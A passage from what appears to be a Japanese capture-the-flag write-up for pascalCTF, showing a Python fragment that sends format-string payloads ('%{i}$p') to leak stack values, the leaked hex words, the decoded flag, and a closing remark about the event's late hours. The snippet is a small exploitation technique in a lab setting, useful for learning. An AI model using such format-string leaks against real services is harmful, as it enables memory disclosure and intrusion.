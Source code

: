 ```python
    payload = f'%{i}$p'
    p.sendline(payload)
    hex.append(p.recvall().decode().strip())

print(' '.join(hex))
```
これだけだと`0x54436c6163736170 0x3172705f306e7b46 0x6e6c75762d66746e 0x6e75665f306e2d73 0x0000007d6c6c3440`みたいな感じになるので、お手製のプログラムに食わせて印字させてみました。

フラグは`pascalCTF{n0_pr1ntf-vulns-n0_fun@4ll}`となります。

# 最後に
CTFは日本時間だと深夜開催(0-5時)。その日は予定があることを忘れており、結局寝ました。
